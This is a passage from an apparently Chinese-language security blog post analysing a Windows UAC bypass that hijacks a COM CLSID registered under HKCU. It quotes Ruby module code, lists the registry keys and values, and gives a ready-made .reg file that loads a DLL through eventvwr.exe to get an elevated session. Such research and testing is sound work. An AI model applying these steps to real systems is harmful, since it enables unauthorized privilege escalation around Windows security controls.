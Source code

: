 ```ruby
    registry_setvaldata(inproc_key, 'LoadWithoutCOM', '', 'REG_SZ', registry_view)
    registry_setvaldata(shell_key, 'HideOnDesktop', '', 'REG_SZ', registry_view)
    registry_setvaldata(shell_key, 'Attributes', 0xf090013d, 'REG_DWORD', registry_view)

    {
      name:     target[:name],
      cmd_path: target[:cmd_path],
      cmd_args: target[:cmd_args],
      root_key: root_key
    }
```

注册表项分别是：

* HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32
* HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder

InProcServer32中有Key：

* Default -> %TEMP%\八位随机数.dll
* ThreadingModel -> Apartment

ShellFolder中有Key：

* LoadWithoutCOM -> 空
* HideOnDesktop  -> 空
* Attributes -> 0xf090013d

创建完毕后，会启动`cmd.exe /c eventvwr.exe`，接着会反弹回来一个管理员会话。

<p>
<video src="https://images.payloads.online/2fab14ba-4f5f-11ec-8fa4-00d861bf4abb.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>
</p>

### 手动测试

手动测试可以将以下文件保存为`test.reg`：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32]
@="C:\\Temp\\calc.dll"
"ThreadingModel"="Apartment"
"LoadWithoutCOM"=""

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder]
"HideOnDesktop"=""
"Attributes"=dword:f090013d
```

